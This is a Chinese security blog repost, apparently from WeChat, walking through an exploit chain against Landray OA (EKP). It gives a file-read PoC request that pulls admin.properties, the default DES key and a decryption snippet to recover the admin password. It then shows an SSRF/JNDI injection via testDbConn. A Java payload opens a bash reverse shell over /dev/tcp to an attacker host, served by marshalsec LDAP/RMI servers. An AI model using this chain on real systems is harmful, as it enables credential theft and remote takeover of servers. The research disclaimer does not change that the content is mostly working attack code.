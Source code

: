 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-Y03NedgphDL8yBDpc5QOg)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyI8SNOVqpyMeg5k7mhuVZvdrXnHVmEweCKUtVnlibjSn6D7qMvELhYicw/640?wx_fmt=png)

X 凌 OA 系统任意文件读取 - SSRF+JNDI 远程命令执行

一、漏洞描述  

深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，同时利用 ssrf 可远程命令执行。

二、漏洞影响

蓝凌 OA

三、

利用 蓝凌 OA custom.jsp 任意文件读取漏洞 读取配置文件

读取路径：

```
/WEB-INF/KmssConfig/admin.properties
```

读取文件：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyPPehvwoLicD4Ay350Kvr7tYouRNZR4BWVYeibBPYwiajoEcZ6DibOY2Lrw/640?wx_fmt=png)

POC：

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

获取密码 DES 解密登陆后台：默认密钥为 kmssAdminKey

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyy8unBaiaVhTeZFXjpZE9FdFQgp9kPW4wiaK8jqUstDhvCX8ovTo9wQTg/640?wx_fmt=png)

访问后台登台：

http://127.0.0.1/admin.do

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKytWxvSyuzicS2ibbOVsO3u1JN5wwlQiaQucr2iaHooQLQynQZ3eXX538IbA/640?wx_fmt=png)  

成功登陆后台：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyn66vIhhvIGia1KLAxZdROYdLibF5gRnKiaMXKiazsCxQmyYFNG7oU0GTPg/640?wx_fmt=png)

编写 POC 脚本验证：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyv3vTmR0qvLicg7BzNMzWYiaXLPX9nJKWOI9AONBseZRJQNHPta3gKSOQ/640?wx_fmt=png)

还需要自己去验证解密：  

编写本地 DES 解密：  

```
def decrypt_str(s):
 k = des(Des_Key, ECB, Des_IV, pad=None, padmode=PAD_PKCS5)
 decrystr = k.decrypt(base64.b64decode(s))
 print(decrystr)
 return decrypt_str
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyT7U9ocreOIJfTqUOIZCyHxjpN3VRcc8KEOeAM18MIdl3UWqAgOKesA/640?wx_fmt=png)

发现 key 字符过长：  

ValueError: Invalid DES key size. Key must be exactly 8 bytes long.

密钥长了，查了一下下 需要前面 8 位就 OK 也能解开

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKylbfqggQicwI4RGbQic5qiaw6Mtwa9eFvlvW66NPWcN4pl7v00dpQ9UpTA/640?wx_fmt=png)

直接解密明文：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyyJUBC848tOXDm9wU5CIWdtyZ4w6RaX2ca1epaicVM3R9f6Yhy3ETOEA/640?wx_fmt=png)

-------------- 上面是 X 凌 OA 系统任意文件读取 --------------

SSRF+jndi：

使用 JNDI-Injection 构建 ldap 服务：

https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

或者是手动自己编译 java 文件：

手动启动 ldap rim 服务详细过程参考：

[Fastjson1.2.47 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzIyNjk0ODYxMA==&mid=2247484025&idx=1&sn=10e26bbfd67f82b4c457601699d1f8eb&chksm=e869e114df1e6802491b516b03121304b35565bffe8ed8242214743b842897bd3e84673ba1e6&scene=21#wechat_redirect)

文章地址：https://mp.weixin.qq.com/s/69NCDDSaa07YY7DwyC9fgA

前期的 fastjson：

将下面 exp 保存为 Exploit.java 文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        //Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/XX.XX.XX.XX/34567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

```
javac Exploit.java  编译生成Exploit.class文件
```

python 启动 web 服务

```
python -m SimpleHTTPServer  1111
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVs2yfMaKSyVFPI9DcnafoSPTwPicXDLXbUAicQjial0fTTbBEENOw9k4FQ/640?wx_fmt=png)

通过 python 启动 exphttp 服务启动 ldap 服务 (RMI 服务)

本次复现使用 ldap 服务，同时也将 RMI 对应的操作也做了截图整理，主要是的原因的 RMI 的 JDk 版本支持，LDAPJava 的版本本环境的支持（注意 JDK 的版本，这个是可能成功与否的关键）。

不支持基本上，rmi 服务接受到了请求，直接就 close 掉了。注意这个细节点

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVn2ukCgvMibicpX3Pnm6U9HaFYyVzpPWI3qROb6ic5eRElxf56Qlev34zQ/640?wx_fmt=png)

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjfF5ibf0Z5YpAz9OYs2iaSVKVbIWgVXFPibVOCYAzFticCpj9ycdiabTX2ZodsB8IScRnl950q0VjhIa7Q/640?wx_fmt=png)

ldap 服务启动完成：  

访问后台登台：

http://127.0.0.1/admin.do

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKytWxvSyuzicS2ibbOVsO3u1JN5wwlQiaQucr2iaHooQLQynQZ3eXX538IbA/640?wx_fmt=png)  

成功登陆后台：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjdZYhoEcuXbEjgeibMl8RcKyn66vIhhvIGia1KLAxZdROYdLibF5gRnKiaMXKiazsCxQmyYFNG7oU0GTPg/640?wx_fmt=png)

成功登陆系统获取的 cookie：  

```
POST /admin.do HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=; Hm_lvt_9838edd365000f753ebfdc508bf832d3=; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/thelostworld
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRje4G63OeC8nFZg4HLZEJU5BiaIu9CQWiaI4hLj0hsjyg2uIZvOJ402NHyS5gLtDkD6cjgluNILluYRw/640?wx_fmt=png)

DNSlog 执行成功

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRje4G63OeC8nFZg4HLZEJU5BOAkbLHLBAGziaibNkpicaBYFX53fVMoqCDcFSlevT9Z21ZzrSJfejVSJg/640?wx_fmt=png)

参考：  

http://wiki.xypbk.com/Web%E5%AE%89%E5%85%A8/%E8%93%9D%E5%87%8Coa/%E8%93%9D%E5%87%8COA%20SSRF%E5%92%8CJNDI%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)